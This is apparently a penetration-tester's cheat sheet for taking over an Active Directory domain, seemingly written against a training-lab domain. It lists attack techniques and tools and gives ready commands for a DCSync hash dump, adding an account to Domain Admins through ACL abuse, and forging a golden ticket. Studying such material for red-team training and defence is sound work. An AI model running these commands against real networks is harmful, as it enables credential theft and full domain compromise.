

_Goal: Gain full administrative control of the Active Directory domain._

---

### **Objectives**

- Identify domain admin accounts or paths to them
    
- Capture or forge credentials or Kerberos tickets
    
- Use misconfigurations or attack chains to obtain domain-level privileges
    

---

### **Mermaid Diagram**



  

---

### **Techniques and Tools**

|**Technique**|**Tool/Command**|**Notes**|
|---|---|---|
|DCSync Attack|secretsdump.py, mimikatz lsadump::dcsync|Requires Replication rights or access to domain controller|
|Kerberoasting|GetUserSPNs.py, Get-DomainUser -SPN, hashcat|Crackable service account ticket leads to privileged access|
|AS-REP Roasting|GetNPUsers.py, Rubeus asreproast|Crack offline, works for preauth-disabled users|
|ACL Attack (GenericAll, WriteDACL)|PowerView, Set-DomainObject, Add-DomainGroupMember|Abuse rights to modify privileged group membership|
|ExtraSID / SID History Abuse|mimikatz, kerberos::golden, SID injection|Forge ticket with injected SID|
|Token Impersonation|Incognito, mimikatz token::elevate, Invoke-TokenManipulation|Use stolen token from DA session|
|Golden Ticket Attack|mimikatz kerberos::golden|Requires domain SID and krbtgt NTLM hash|
|Overpass-the-Hash|Rubeus, mimikatz sekurlsa::pth|Inject TGT from NTLM hash for DA account|

  

---

### **Example: DCSync via Mimikatz**

```
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:administrator
```

  

---

### **Example: Add User to Domain Admins via ACL Abuse**

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'hacker' -Credential $Cred -Verbose
```

  

---

### **Example: Golden Ticket Forgery**

```
kerberos::golden /user:hacker /domain:inlanefreight.local /sid:<domain_sid> /krbtgt:<ntlm> /ptt
```

  

---

### **Pro Tips**

- BloodHound is invaluable for identifying hidden DA paths (via sessions, RBCD, ACLs)
    
- After obtaining DA, run DCSync to extract all domain hashes
    
- Clean up or **rotate krbtgt** after testing golden tickets to prevent long-term compromise
    
- Dump **GPOs, DNS zones, SYSVOL**, and scan **privileged scripts** post-DA
    

